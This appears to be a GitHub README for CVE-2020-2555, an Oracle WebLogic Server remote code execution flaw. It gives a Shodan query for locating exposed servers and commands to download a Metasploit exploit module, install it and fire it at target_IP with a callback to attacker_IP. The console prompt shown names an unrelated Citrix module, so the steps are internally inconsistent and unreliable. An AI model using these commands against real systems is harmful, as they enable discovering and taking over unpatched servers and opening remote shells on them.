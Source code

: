 # CVE-2020-2555

![](https://img.shields.io/static/v1?label=Product&message=Oracle%20WebLogicServer&color=blue)
![](https://img.shields.io/static/v1?label=Version&message=3.7.1.0,%2012.1.3.0.0,%2012.2.1.3.0%20and%2012.2.1.4.0&color=brighgreen)
![](https://img.shields.io/static/v1?label=Vulnerability&message=CVSSv3:%209.8.%20Remote%20Code%20Execution&color=red)



 - Shodan dork:
```
product:"Oracle WebLogic Server"
```


### Metasploit Framework
```
wget https://raw.githubusercontent.com/getdrive/PoC/main/2020/WebLogic_Server_Deserialization_RCE/weblogic_deserialize_badattrval.rb
```
```
cp weblogic_deserialize_badattrval.rb /usr/share/metasploit-framework/modules/exploits/multi/misc/
```
```
msfdb reinit; msfconsole -q
```
```
use exploits/multi/misc/weblogic_deserialize_badattrval.rb
```
```
exploit(freebsd/http/citrix_formssso_target_rce) > set rhosts target_IP
exploit(freebsd/http/citrix_formssso_target_rce) > set lhost attacker_IP
exploit(freebsd/http/citrix_formssso_target_rce) > run
```
